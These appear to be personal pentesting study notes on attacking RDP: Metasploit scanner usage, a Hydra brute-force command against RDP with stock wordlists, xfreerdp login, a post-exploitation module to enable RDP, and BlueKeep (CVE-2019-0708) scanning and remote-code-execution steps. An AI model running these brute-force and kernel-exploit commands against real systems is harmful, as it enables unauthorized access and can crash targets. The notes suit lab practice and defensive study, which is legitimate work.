 port 3389
![](</Images/Pasted image 20231203135716.png>)

to verify a port is actually RDP. two methods
#msfconsole serach rdp_scanner
```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS $IP
set RPORT 3333
run
```


brute force login using Hydra
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt  -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -s 3333 $IP rdp
```

xfreerdp to login
```bash
xfreerdp /u:<username> /p:<password>/v:<ip address>:<port>
```

## Enable RDP post explotation
`search enable_rdp`

That enables rdp along with port. Once done use #xfreerdp to connect. Requires credentials. 
```
xfrerdp /u:<user> /p:<pass> /v:<ip>
```


## BlueKeep Exploit

To check if vulnerable
```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS $IP
exploit
```

If vulnerable use:
```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS $IP
show targets #check target options
set target 5
exploit
```

> **NOTE** kernel exploits can crash machine. If this crashes machine, RIP. Use google to resolve. :)